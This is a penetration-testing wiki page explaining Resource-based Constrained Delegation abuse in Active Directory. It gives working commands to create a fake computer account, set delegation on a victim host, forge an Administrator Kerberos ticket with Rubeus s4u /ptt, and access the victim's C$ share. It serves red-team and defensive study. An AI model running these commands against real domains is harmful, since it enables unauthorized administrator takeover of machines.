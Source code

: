 # Resource-based Constrained Delegation

## Basics of Resource-based Constrained Delegation

This is similar to the basic [Constrained Delegation](constrained-delegation.md) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** \(_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_\) ****can set the _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ \(In the other forms of Delegation you needed domain admin privs\).

### New Concepts

Back in Constrained Delegation it was told that the _**TrustedToAuthForDelegation**_ flag inside the _userAccountControl_  value of the user is needed to perform a **S4U2Self.** But that's not completely truth.  
The reality is that even without that value, you can perform a **S4U2Self** against any user if you are a **service** \(have a SPN\) but, if you **have** _**TrustedToAuthForDelegation**_  the returned TGS will be **Forwardable** and if you **don't have** that flag the returned TGS **won't** be **Forwardable**.

However, if the **TGS** used in **S4U2Proxy** is **NOT Forwardable** trying to abuse a **basic Constrain Delegation** it **won't work**. But if you are trying to exploit a **Resource-Based constrain delegation, it will work** \(this is not a vulnerability, it's a feature, apparently\).

### Attack structure

> If you have **write equivalent privileges** over a **Computer** account you can obtain **privileged access** in that machine.

Suppose that the attacker has already **write equivalent privileges over the victim computer**.

1. The attacker **compromises** an account that has a **SPN** or **creates one** \(“Service A”\). Note that **any** _Admin User_ without any other special privilege can **create** up ****until 10 **Computer objects \(**_**MachineAccountQuota**_**\)** and set them a **SPN**. So the attacker can just create a Computer object and set a SPN.
2. The attacker configures **resource-based constrained delegation from Service A to the victim host**. 
3. The attacker uses Rubeus to perform a **full S4U attack** \(S4U2Self and S4U2Proxy\) from Service A to Service B for a user **with privileged access to Service B**. 
   1. S4U2Self \(from the SPN compromised/created account\): Ask for a **TGS of Administrator to me** \(Not Forwardable\).
   2. S4U2Proxy: Use the **not Forwardable TGS** of the step before to ask for a **TGS** from **Administrator** to the **victim host**.
   3. Even if you are using a not Forwardable TGS, as you are exploiting Resource-based constrained delegation, it will work.
4. The attacker can **pass-the-ticket** and **impersonate** the user to gain **access to the victim**.

To check the _**MachineAccountQuota**_ of the domain you can use:

```text
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/b1.png)

```bash
Get-DomainComputer FAKECOMPUTER #Check if created if you have powerview
```

### Configuring R**esource-based Constrained Delegation**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount FAKECOMPUTER$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it work
```

![](../../.gitbook/assets/b2.png)

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.  
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

![](../../.gitbook/assets/b3.png)

You can generate more tickets just asking once using the `/altservice` param of Rubeus:

```bash
> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:cifs,time,host,http,winrm,rpcss,ldap /domain:domain.local /ptt
```

### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.  
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```

![](../../.gitbook/assets/b4.png)

## Kerberos Errors

* **`KDC_ERR_ETYPE_NOTSUPP`**: This means that kerberos is configured to not use DES or RC4 and you are supplying just the RC4 hash. Supply to Rubeus at least the AES256 hash \(or just supply it the rc4, aes128 and aes256 hashes\). Example: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: This means that the time of the current computer is different from the one of the DC and kerberos is not working properly.
* **`preauth_failed`**: This means that the given  username + hashes aren't working to login. You may have forgotten to put the "$" inside the username when generating the hashes \(`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`\)

## References

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution\#modifying-target-computers-ad-object" %}

{% embed url="https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/" %}





